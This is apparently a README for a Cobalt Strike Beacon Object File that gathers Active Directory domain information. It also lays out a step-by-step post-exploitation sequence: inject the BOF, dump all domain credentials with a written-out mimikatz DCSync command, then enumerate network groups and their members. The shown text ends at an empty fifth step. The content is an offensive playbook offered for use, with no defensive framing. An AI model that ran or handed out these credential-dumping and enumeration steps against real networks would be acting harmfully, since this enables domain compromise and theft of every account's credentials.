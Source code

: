 # CobaltStrike_Domain_Info-
This is a BOF to return Domain Forest Name, Domain Name, Domain Controller, address, sitename 


BOF files included:

get_domain_info.c: This will return Domain Forest Name, Domain Name, Domain Controller+address+sitename 


Instructions for completing flowchart 

Step 1) We need the domain of windows computer.
    Inject get_domain_info.o without arguments

Step 2) Attempt to retrieve domain controller credentials using mimikatz
    mimikatz lsadump::dcsync /domain:<DOMAIN NAME> /all /csv

Step 3) Get a list of all network groups
    Inject get_net_groups.o with the following arguments ("<DOMAIN>")

Step 4) List members of each network groups
    Inject get_net_group_members.o with the following arguments ("<DOMAIN>", "<GROUP>")

Step 5) List everyone logged into the domain
